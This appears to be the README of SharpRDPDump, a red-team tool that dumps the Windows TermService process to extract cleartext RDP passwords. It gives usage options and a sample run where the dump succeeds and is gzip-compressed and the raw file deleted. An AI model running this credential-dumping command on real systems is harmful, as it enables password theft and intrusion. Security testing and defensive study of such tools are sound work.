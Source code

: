 # community experiment. Dont use this for now unless it is for testing or submitting a PR.
Use mimikatz instead for the real magic.

# SharpRDPDump
 Create a minidump of TermService for clear text pw extraction
all credits go to JonasLyk, nice explination found here :

https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/amp/?__twitter_impression=true


Only works when compiled for x64. <br>


```
 ._________________.
 | _______________ |
 | I             I |
 | I    RDPDump  I |
 | I    @jfmaes  I |
 | I             I |
 | I_____________I |
 !_________________!
    ._[_______]_.
.___|___________|___.
|::: ____           |
|    ~~~~ [CD-ROM]  |
!___________________!



 Usage:
  -h, -?, --help             Show Help


  -l, --location=VALUE       the location to write the minidumpfile to
                               (default:%localappdata%\rdpdump.bin)
  -c, --compress             compressess the minidump and deletes the normal
                               dump from disk (gzip format)
                               
                             
```



```
SharpRDPDump.exe -c


 ._________________.
 | _______________ |
 | I             I |
 | I    RDPDump  I |
 | I    @jfmaes  I |
 | I             I |
 | I_____________I |
 !_________________!
    ._[_______]_.
.___|___________|___.
|::: ____           |
|    ~~~~ [CD-ROM]  |
!___________________!



termservice found, PID: 1736
[+] Dump successful!

[*] Compressing C:\Users\xxx\AppData\Local\rdpdump.bin to C:\Users\xxx\AppData\Local\rdpdump.bin.gz gzip file
[X] Output file 'C:\Users\xxx\AppData\Local\rdpdump.bin.gz' already exists, removing
[*] Deleting C:\Users\xxx\AppData\Local\rdpdump.bin

[+] Dumping completed.
 check C:\Users\xxx\AppData\Local\rdpdump.bin.gz
```
